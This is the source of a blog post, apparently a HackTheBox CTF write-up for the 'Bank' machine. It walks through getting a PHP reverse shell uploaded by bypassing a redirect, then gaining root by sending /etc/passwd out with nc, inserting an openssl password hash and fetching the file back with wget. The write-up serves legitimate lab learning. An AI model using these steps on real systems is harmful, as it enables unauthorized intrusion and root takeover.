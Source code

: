 ```yaml
---
layout: post
title:	"Bank Writeup"
date:	2018-09-13 03:00:00
categories:
    - writeups
tags:
    - ctf
    - boot2root
    - hackthebox
---
```

<head>
	<title> Bank Writeup | HackTheBox </title>
</head>

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/logo.png)

## i. Port Scan

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/ports.png)

## ii. Enumeration / Low Priv Shell

Starting off with http, we navigate to the host:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/apache.png)

We see the default apache page. 

The reason we see the default apache page is because Apache is using Virtual Hosting.

~~~
https://httpd.apache.org/docs/trunk/vhosts/examples.html
~~~

If we edit our hosts file (`/etc/hosts`), this is the local DNS in Linux.

We add bank.htb along with the IP:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/hosts.png)

~~~
Knowing to edit the hosts file is a little trivial. I guess DNS being open was some sort of a hint?
~~~

Now navigating to bank.htb:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/bank.png)

Time to run a gobuster, and see if there are any other directories / PHP files:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/gobuster.png)

Navigating to any of these pages redirects us back to /login.php

Let's try grabbing the source of support.php with curl:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/source.png)

Looks like the page has content, but we're being redirected.

The way we can see what's on the page is by using a web proxy.

For some reason Burp was not returning the response code and was automatically sending a GET request to login.php, so I used `zap`.

Navigate to support.php:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/302.png)

Change the 302 to 200, and the page should load without redirecting:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/200.png)

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/fileupload.png)

Looks like we have a place where we can upload files. If we noticed from the source earlier, there's a message:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/htb.png)

So the extension .htb, gets treated as .php. 

I'm going to use a php reverse shell, rename it to shell.htb, and upload the shell.

~~~
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
~~~

After uploading the shell, you will be redirected back to login.php

Now you can access your uploaded shell on `http://bank.htb/uploads/shell.htb` and the listener should catch it:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/shell.png)

## ii. Privilege Escalation

There are two ways to escalate privileges.

### a. Priv Esc #1

While enumerating the system, I noticed that the `/etc/passwd` file had write permissions for our user.

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/perms.png)

I then used nc to transfer the `passwd` file to my system so I can edit it:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/passwd.png)

~~~ 
ON OTHER HOST:

$ nc -w 3 YOUR-IP PORT < file

ON YOUR HOST:

$ nc -l -p PORT > file
~~~

Now we can use `openssl` to generate a password and insert it into `/etc/passwd`

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/toor.png)

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/passwd2.png)

~~~
$ openssl passwd -1 -salt [username] [password]

The original format of root entry:

root:x:0:0:root:/root:/bin/bash

the x is a placeholder for the password, which the system retrieves the hash from /etc/shadow

if we replace x with a hash generated by openssl, we can login
	- you can also make a new account and set the UID to 0, and it'll be treated as root as well

https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/
~~~

Then use wget to download the new passwd file and use the `-O` switch to output the file as `/etc/passwd`:

![Screenshot]({{ site.baseurl }}/images/posts/2017/bank/wget.png)

Now we can `su` to root with the password we generated.

* A TTY shell must be spawned before using su `python -c 'import pty;pty.spawn("/bin/bash")'`







~~~
Sources / Links:
[0]: https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability
[1]: https://security.stackexchange.com/questions/68122/what-is-a-specific-example-of-how-the-shellshock-bash-bug-could-be-exploited
[2]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[3]: https://netsec.ws/?p=337
~~~


